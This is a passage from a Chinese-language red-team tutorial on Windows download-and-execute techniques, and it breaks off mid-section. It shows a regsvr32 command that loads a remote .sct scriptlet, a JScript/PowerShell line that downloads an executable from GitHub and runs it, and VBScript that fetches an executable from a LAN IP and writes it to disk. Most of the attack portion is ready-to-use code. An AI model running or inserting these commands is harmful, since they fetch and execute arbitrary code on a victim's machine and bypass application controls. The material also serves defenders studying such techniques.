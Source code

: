 **注：**

使用bitsadmin的下载速度较慢

### 4、regsvr32

```
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec.sct scrobj.dll
```

**原理：**

regsve32->JScript->powershell->download&exec

JScript调用powershell实现下载执行的代码为：

```
new ActiveXObject("WScript.Shell").Run("powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\\download\\a.exe');start-process 'c:\\download\\a.exe'",0,true);
```

参照sct文件格式：

https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

添加功能，生成downloadexec.sct

**实现功能：**

```
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec.sct scrobj.dll
```

当然，为了减少调用的程序，也可以使用以下思路：

regsve32->VBScript->download&exec

通常，vbs脚本实现的下载执行代码：

```
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("Msxml2.XMLHTTP")
http.open "GET","http://192.168.81.192/putty.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\download\a.exe"
ado.Close
```

但该脚本不支持https下载，可以换用`Msxml2.ServerXMLHTTP.6.0`

代码如下：
